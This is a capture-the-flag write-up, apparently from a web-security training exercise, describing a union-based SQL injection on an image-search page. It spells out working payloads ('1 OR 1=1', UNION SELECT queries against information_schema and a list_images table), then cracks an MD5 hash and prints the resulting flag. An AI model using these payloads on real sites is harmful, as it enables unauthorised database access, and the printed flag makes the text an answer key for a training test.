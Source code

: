 # UNION BASED SQL INJECTION

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery
go to
```
 http://{IP_ADDRESS}/?page=searchimg
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
1 UNION SELECT table_name,column_name FROM information_schema.COLUMNS 
```
> id, url, title, comment

the command below will retrieve all image's data
```
1 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
```

the result shows this interesting image with title (Hack me ?):

|   id    |               url                   |   title   |                                                      comment      	                                                 |
| ------- | ----------------------------------- | --------- | ---------------------------------------------------------------------------------------------------------------------- |
|   5     | borntosec.ddns.net/images.png       | Hack me ? |  If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 1928e8083cf461a51303633093573c46 gives albatroz 
* lower all the char, encrypt it using Sh256
* flag is f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
- [sha256 - sh256](https://emn178.github.io/online-tools/sha256.html)


## Ressources
- [Owasp SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)